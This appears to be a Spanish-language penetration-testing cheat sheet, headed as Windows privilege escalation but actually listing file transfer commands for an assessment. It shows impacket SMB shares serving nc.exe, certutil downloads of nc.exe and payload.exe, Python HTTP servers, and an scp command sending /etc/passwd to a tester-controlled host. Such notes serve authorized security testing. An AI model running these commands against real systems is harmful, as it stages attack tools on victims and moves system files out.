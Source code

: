 # Escalación de Privilegios en Windows

## Descripción
Comprender diferentes formas de realizar transferencias de archivos y cómo funcionan las redes puede ayudarnos a lograr nuestros objetivos durante una evaluación. Debemos ser conscientes de los controles del host que pueden impedir nuestras acciones, como la inclusión en listas blancas de aplicaciones o el bloqueo AV/EDR de aplicaciones o actividades específicas. Las transferencias de archivos también se ven afectadas por dispositivos de red como Firewalls, IDS o IPS que pueden monitorear o bloquear puertos particulares u operaciones poco comunes.

### Linux - Windows (smb no autenticado)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
copy \\192.168.220.133\share\nc.exe (windows)
```

### Linux - Windows (smb con autentificación)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test (Linux)
net use n: \\192.168.220.133\share\FILENAME /user:test test (windows)
```

### Web Download

```python
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Alternativas distintas
```python
python3 -m http.server
python2.7 -m SimpleHTTPServer
wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload
```python
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
```

### Certuil Tranferir archivos
```python
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe (windows)
certutil -urlcache -f http://10.10.23.2/payload.exe payload.exe (windows)
```
